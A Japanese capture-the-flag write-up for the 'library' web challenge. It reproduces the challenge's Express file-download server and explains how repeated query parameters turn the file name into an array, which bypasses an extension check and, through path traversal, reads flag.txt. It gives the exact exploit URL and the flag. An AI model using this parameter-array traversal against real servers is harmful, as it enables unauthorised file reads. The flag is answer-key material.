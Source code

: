 # library:Web:400pts
I created a file library in my website. I don't have a lot of files, but take a look to the ones I have!  
![filelibrary.jpg](images/filelibrary.jpg)  
J'ai créé une bibliothèque web de fichiers. Je n'ai pas beaucoup de fichiers, mais j'espère que vous aimez ceux que j'ai !  
[http://143.198.224.219:8888](http://143.198.224.219:8888/)  
Hint  
Express query parsing vulnerability  
[server.js](server.js)  

# Solution
URLとソースが渡される。  
アクセスするとファイルをDLできるサービスのようだ。  
File Library  
[site.png](site/site.png)  
リンク先`/getFile?file=ok.js`では以下のコードがみられるが、関係なさそうだ。  
[ok.png](site/ok.png)  
リンク先`/getFile?file=a.cpp`では以下のコードが得られた。  
```cpp
#include <stdlib.h>
int main() {
    system("cat flag.txt");
}
```
flag.txtを読み取れば良いとわかる。  
配布されたソースを見ると以下のようであった。  
```JavaScript
const express = require('express');
const path = require('path');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    let { file } = req.query;

    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {

        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    if (file.length > 5) {
        file = file.slice(0, 5);
    }

    const returnedFile = path.resolve(__dirname + '/' + file);

    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);

    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}
```
注目すべきは、以下の`allowedFileType`で拡張子を確認しているようだ。  
```JavaScript
~~~
function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);

    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}
```
さらにその後、5文字という制限も入れているようだ。  
```JavaScript
    if (file.length > 5) {
        file = file.slice(0, 5);
    }
```
5文字で拡張子が`js`、`ts`、`c`、`cpp`のファイルしか読みだせないようになっているが`flag.txt`は8文字でtxtである。  
まずは拡張子のチェックバイパスを考える。  
`indexOf`が使われているので、配列を引数に入れる物が有効そうだ。
試しに`allowedFileType(["flag.txt",".","cpp"])`をチェックすると`true`になる。  
こうして拡張子チェックの問題は解決したかにみえるが、別の問題が発生する。  
以下のファイルのパス解決の部分である。  
```JavaScript
~~~
    const returnedFile = path.resolve(__dirname + '/' + file);
~~~
```
配列が文字列として扱われるため、`__dirname/flag.txt,.,cpp`という謎のファイル名になってしまう。  
まず後ろの`,.,cpp`を消さなければならない。  
ここで、5文字制限を思い出す。  
`file.slice(0, 5);`で5文字以降は切り捨てられるため、`["0","1","2","3","4","flag.txt",".","cpp"]`とすれば`flag.txt`で終わるようになる。  
現状ファイル名は`__dirname/0,1,2,3,4,flag.txt`となる。  
コンマが邪魔になるが、`path.resolve`なので存在しないパスを作りトラバーサルする`/test/../`手法が有効である。  
`["test","/../","/../","/../","/../","/../flag.txt",".","cpp"]`は`__dirname/test,/../,/../,/../,/../,/../flag.txt`となり`__dirname/flag.txt`と解決される。  
よって`http://143.198.224.219:8888/getFile?file=test&file=/../&file=/../&file=/../&file=/../flag.txt&file=.&file=cpp`にアクセスすればよい。  
[flag.png](site/flag.png)  
flagが表示された。  

## OFPPT-CTF{5h0uld_5tr1ng1fy_th3_p4r4ms}